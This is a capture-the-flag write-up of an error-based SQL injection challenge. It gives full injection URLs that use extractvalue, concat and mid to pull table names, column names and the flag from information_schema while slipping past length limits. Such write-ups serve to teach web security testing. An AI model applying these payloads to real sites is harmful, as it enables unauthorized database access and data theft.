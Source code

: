 Challenge: http://try-sqlmap.ctf.actvn.edu.vn/

![image](https://user-images.githubusercontent.com/35491855/154800109-eeb85e75-0387-4288-b1a1-ae2d7c4d058a.png)


As the title of the challenge, it tells us to try `SQL Map`. However in this case, this powerful tool is not gonna help us get the flag, but it gave us a hint. 

![image](https://user-images.githubusercontent.com/35491855/154800002-0e97d92c-a1dd-4f22-b57d-4cd5e115c2b8.png)

This website can be exploited with `Error Based SQLi`, using some functions like `extractvalue` and `updatexml`. If you add extra character such as a single quote to the parameter, you will get the error, that mean the server respond the error message whenever there is an error. 

![image](https://user-images.githubusercontent.com/35491855/154800167-04ea9950-7006-4da8-837d-d338acb8a30a.png)

Easy peasy lemon squeezy, let's give it a try, by using the the `extractvalue` function i can get the database name

![image](https://user-images.githubusercontent.com/35491855/154800214-24d964a9-c7b2-4c07-8590-fa30ceadfdc7.png)

Now let's move on, get the table name and then the column. 

![image](https://user-images.githubusercontent.com/35491855/154800263-2bf1e1a2-84bc-4d82-aee8-82d1127638a6.png)

Wait, it show us the index page's content, something is not right here, we should have got the table by now. Well, After numerous attempts, i finally found out that the input length is limited to 100 characters and by reading the hint, i can guess that the output length is also limited to 32 characters

![image](https://user-images.githubusercontent.com/35491855/154800416-1645ab03-535e-4789-ac0a-a01d546a31f0.png)

Good, now we have to find a way to reduce the length of the query and as the length of flag table name is longer than 32 characters, we will have to use `mid` function to bypass the output check. This is my query:

`http://try-sqlmap.ctf.actvn.edu.vn/?order=extractvalue(0,concat(0,(SELECT+mid(table_name,1,31)+FROM+information_schema.tables+limit+1)))`

![image](https://user-images.githubusercontent.com/35491855/154800852-16a65504-d608-4e0f-9763-32be0763c9ab.png)

As you can see, we have successfully extracted the first 32 characters of the table name, as we increase the index we'll be able to know the whole string. I used `limit 1` as the table name record is coincidentally the first record in `information_schema.tables`. Keep increasing the index value of the `mid` function, we get the whole name: `flahga123456789xxsxx012xxxxxxxxx34567xx1`

Using the same technique, we also get the column name as it's also the first record in `information_schema.columns`, query: 
`http://try-sqlmap.ctf.actvn.edu.vn/?order=extractvalue(0,concat(0,(SELECT+mid(column_name,1,31)+FROM+information_schema.columns+limit+1)))`

![image](https://user-images.githubusercontent.com/35491855/154801196-b86e8848-a097-40aa-aa01-f43360cbf19e.png)

Finally, extract the flag:

![image](https://user-images.githubusercontent.com/35491855/154801232-491692ec-733a-40d8-a11d-df7995bc3d60.png)

`http://try-sqlmap.ctf.actvn.edu.vn/?order=extractvalue(0,concat(0,(SELECT+mid(flag,1,31)+FROM+flahga123456789xxsxx012xxxxxxxxx34567xx1)))`

final flag: `KMACTF{X_Ooooooooooooorder_By_Nooooooooooooooooooone_SQLMaaaaaaaaaaaaaaaap?!!!!!!!!!!!!}`

Special Thanks to **Taidh**, who helped me a lot in figuring out this challenge

